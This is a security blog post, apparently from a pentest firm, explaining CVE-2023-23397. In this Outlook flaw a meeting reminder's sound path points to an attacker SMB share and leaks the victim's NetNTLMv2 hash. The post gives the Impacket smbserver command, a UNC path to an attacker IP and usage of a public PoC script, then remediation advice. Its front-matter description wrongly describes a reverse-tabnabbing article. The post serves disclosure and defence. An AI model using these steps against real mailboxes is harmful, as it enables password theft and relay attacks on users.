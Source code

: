 ```yaml
---
title: "CVE-2023-23397 - The Outlook meeting that exfiltrates your password."
description: "Dive into the depths of 'reverse tab nabbing,' an incredibly effective phishing technique. Discover how hackers cleverly exploit your browser tabs to redirect you to malicious sites while making you believe you are safely browsing familiar sites. Through a realistic scenario, we show you step-by-step how this attack unfolds and highlight the exploitable vulnerabilities. Learn essential measures to protect yourself, such as avoiding the use of the target=_blank attribute or incorporating rel=noopener noreferrer. This article is a must-read for strengthening your cybersecurity and thwarting modern phishing traps."
date: 2023-03-24T17:25:42+01:00
draft: false
images: [/images/cve-outlook/CVE-2023-23397.png]
featuredImage: "/images/cve-outlook/CVE-2023-23397.png"
featuredImagePreview: "/images/cve-outlook/CVE-2023-23397.png"
tags: ["Pwncloud", "Pentest", "Cloud"]
author: "Thibaud Robin"
---
```


# ⏰ The meeting reminder that means you harm

## Discovery

On March 14, 2023, the company `MdSec` published [an article](https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/) about a new vulnerability patched in the latest update provided by Microsoft.

The vulnerability was described as follows:

{{< admonition quote "Patch KB5005413" >}}
Microsoft Office Outlook contains a privilege escalation vulnerability that allows for a NTLM Relay attack against another service to authenticate as the user.
{{< /admonition >}}

Analyzing an [analysis script](https://github.com/microsoft/CSS-Exchange/blob/a4c096e8b6e6eddeba2f42910f165681ed64adf7/docs/Security/CVE-2023-23397.md) provided by Microsoft gives some clues about the exploitation of this vulnerability.

## Technical Details

The script indicates certain elements:

```powershell
<#
.SYNOPSIS
    This script audits mails, calendar and task items and check if PidLidReminderFileParameter property is populated or not.
```

```powershell
$searchFilterPidLidReminderFileParameterExists = New-Object Microsoft.Exchange.WebServices.Data.SearchFilter+Exists($mailInfo["PidLidReminderFileParameter"])
$searchFilterCollection.Add($searchFilterPidLidReminderFileParameterExists)
```

```powershell
if (-not $item.RemoveExtendedProperty($mailInfo["PidLidReminderFileParameter"])) {
    Write-Host ("Property already cleared on entry number: $entryCount, Line number: $($entryCount + 1)") -ForegroundColor Yellow
    $invalidEntries.Add($entryCount)
    continue
}
```

The script searches for emails containing the `PidLidReminderFileParameter` attribute. This parameter allows control over the resource played during a meeting reminder.

Therefore, it is possible to conclude:

- Outlook suffers from a **lack of control over user input**, allowing the configuration of the sound for a meeting reminder.
- The attack is executable without any user interaction (a "zero-click" vulnerability).
- The attacker can force a victim to establish a connection with their server to steal their **NetNTLM hash**.

An attacker exploiting this vulnerability retrieves a NetNTLMv2 hash based on the trapped user's password via an SMB request. The request is triggered as soon as the email arrives in the inbox.

## Exploitation

### Step-by-Step

To exploit this vulnerability, several steps are necessary.

First, open an SMB server to receive the NetNTLM hash transmitted by the victim (for example, with Impacket as shown below).

```bash
smbserver.py -smb2support EXEGOL .
```

![SMB Server](/images/cve-outlook/2023-09-12-17-23-49.png)

Once the server is configured, set up the meeting. To do this, point the meeting reminder to the attacker's server. For example: `\\10.10.10.10\EXEGOL\` to match the previous command.

![](/images/cve-outlook/2023-09-12-17-25-33.png)

With the appointment set, its arrival in the victim's mailbox triggers the sending of a NetNTLMv2 hash to the attacker's server.

![](/images/cve-outlook/2023-09-12-17-27-15.png)

This hash was created from the victim's password. A brute-force attack (shown below with `Hashcat`) using an appropriate password list can recover the exfiltrated password.

![](/images/cve-outlook/2023-09-12-17-29-19.png)

### Final PoC

The final PoC is easily achievable.

![](/images/cve-outlook/poc.gif)

## Automation

This type of exploit is easily automated. A PoC is available on Trackflaw's GitHub: https://github.com/Trackflaw/CVE-2023-23397

This PoC acts in several steps:

1. It creates a `.msg` file pointing to the attacker's server.
2. This meeting file is attached to an email.
3. The email is sent to the victim.

Usage of the PoC

```python
python CVE-2023-23397.py

usage: CVE-2023-23397.py [-h] -p PATH
CVE-2023-23397.py: error: the following arguments are required: -p/--path

python CVE-2023-23397.py --path '\\yourip\'
```

## Risks and Remediations

The risks associated with this type of vulnerability are numerous. An attacker can perform various malicious actions:

- Recover the user's password.
- Transmit the hash to authenticate as the user.
- Access network resources.
- Impersonate identities.
- Compromise servers and workstations.
- Etc.

To protect against this vulnerability, Microsoft has released a patch available several days before the publication of the first official PoC.

## Video

Finally, a more detailed video is available on Trackflaw's YouTube channel.

{{< youtube 6bhJPwFgs8Q >}}